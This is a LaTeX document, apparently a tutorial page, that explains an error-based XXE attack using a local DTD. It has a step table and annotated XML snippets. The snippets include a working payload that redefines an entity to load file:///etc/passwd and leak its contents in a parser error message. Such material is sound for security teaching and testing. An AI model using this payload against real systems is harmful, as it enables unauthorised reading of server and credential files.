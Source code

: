 \documentclass{article}
\begin{document}
\begin{table}[h]
\centering
\begin{tabular}{|p{3.5cm}|p{10cm}|}
\hline
\textbf{Step} & \textbf{Action} \\
\hline
1. Define local\_dtd & Declares parameter entity containing the external DTD file from server filesystem \\
\hline
2. Redefine customEntity & Redefines existing entity with error-based XXE exploit payload \\
\hline
3. Execute local\_dtd & Uses entity to load and interpret external DTD with redefined value \\
\hline
4. Trigger Error & Results in error message containing \texttt{/etc/passwd} contents \\
\hline
\end{tabular}
\caption{Hybrid DTD Attack Steps}
\end{table}

\subsubsection{Detailed Explanation of Each Component}

\begin{enumerate}
    \item \textbf{Define the local\_dtd entity:}
    \begin{lstlisting}[language=XML]
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
\end{lstlisting}
    This defines an XML parameter entity called \texttt{local\_dtd} that contains the contents of the external DTD file that exists on the server filesystem.

    \item \textbf{Redefine the custom\_entity entity:}
    \begin{lstlisting}[language=XML]
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
\end{lstlisting}
    
    This redefines the XML parameter entity called \texttt{custom\_entity}, which is already defined in the external DTD file. The entity is redefined as containing the error-based XXE exploit for triggering an error message containing the contents of \texttt{/etc/passwd}.
    

    \item \textbf{Use the local\_dtd entity:}
    \begin{lstlisting}[language=XML]
%local_dtd;
\end{lstlisting}
    This uses the \texttt{local\_dtd} entity, so that the external DTD is interpreted, including the redefined value of the \texttt{custom\_entity} entity. This results in the desired error message.
\end{enumerate}
\end{document}
